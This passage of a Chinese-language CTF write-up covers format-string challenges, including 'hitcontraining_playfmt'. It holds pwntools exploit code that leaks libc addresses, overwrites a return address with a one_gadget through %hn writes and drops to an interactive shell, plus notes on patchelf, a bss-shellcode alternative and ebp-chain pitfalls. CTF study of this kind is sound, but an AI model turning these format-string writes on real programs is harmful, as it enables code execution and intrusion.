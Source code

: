 ```

success('libc_base = ' + hex(libc_base))

one = [0x4f2c5, 0x4f322, 0x10a38c]

one_gadget = one[1] + libc_base

success('one_gadget = ' + hex(one_gadget))

r.recvuntil('0x')

stack_addr = int(r.recv(12), 16) - 0xe0
success('stack_addr = ' + hex(stack_addr))

p2 = '%' + str(stack_addr&0xffff) + 'c%9$hn'
r.sendlineafter('\x0a', p2)

p2 = '%' + str(one_gadget & 0xFFFF) + 'c%35$hn'
r.sendlineafter('\x0a', p2)

p2 = '%' + str((stack_addr + 2)&0xffff) + 'c%9$hn'
r.sendlineafter('\x0a', p2)

p2 = '%' + str(one_gadget >> 16 & 0xFFFF) + 'c%35$hn'
r.sendlineafter('\x0a', p2)

r.sendline('66666666\x00')

r.interactive()
```


## hitcontraining_playfmt


![[Pasted image 20241201123020.png]]

![[Pasted image 20241201122934.png]]
这一题和上面的很像，我没有libc的文件，但是我自己看到是2.23的版本我就去patchelf我猜的版本了，最终本地是打通了的，而且还有一种方式就是将返回地址改成bss段的地址，然后在bss段填上shellcode的代码，也是可行的，但是我没打通。。。。。。，还有就是有很多要注意的点如下图的大佬所言：使用ebp链的时候要最后恢复地址。我恢复后打远程的时候也没通。
![[Pasted image 20241201201454.png]]
```
#coding=utf-8
from pwn import *
context(arch='i386', os='linux', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']
file_name = './playfmt'
debug = 0
if debug:
    r = remote('node5.buuoj.cn', 27480)
else:
    r = process(file_name)
elf = ELF(file_name)

# 泄露libc的真实地址，计算libc_base

p1 = '%15$p,%10$p'
r.sendline(p1)
r.recvuntil('0x')

libc = ELF('./libc.so.6')
libc_base = int(r.recv(8), 16) - libc.sym['__libc_start_main'] - 247
```